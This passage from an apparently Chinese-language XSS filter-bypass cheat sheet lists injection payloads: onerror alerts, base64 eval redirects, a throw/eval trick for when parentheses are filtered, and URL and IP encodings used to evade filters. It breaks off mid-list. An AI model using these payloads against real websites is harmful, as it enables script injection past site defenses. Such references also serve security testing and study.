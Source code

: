     <img src=x onerror=alert('\170\163\163')>


base64绕过

    <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
    
    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">


过滤双引号，单引号
---------

1.如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号

    <img src="x" onerror=alert(`xss`);>


2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了

过滤括号
----

当括号被过滤的时候可以使用throw来绕过

    <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">


过滤url地址
-------

### 使用url编码

    <img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>


### 使用IP

1.十进制IP

    <img src="x" onerror=document.location=`http://2130706433/`>


2.八进制IP

    <img src="x" onerror=document.location=`http://0177.0.0.01/`>


3.hex

    <img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>


4.html标签中用`//`可以代替`http://`

    <img src="x" onerror=document.location=`//www.baidu.com`>


5.使用`\\`
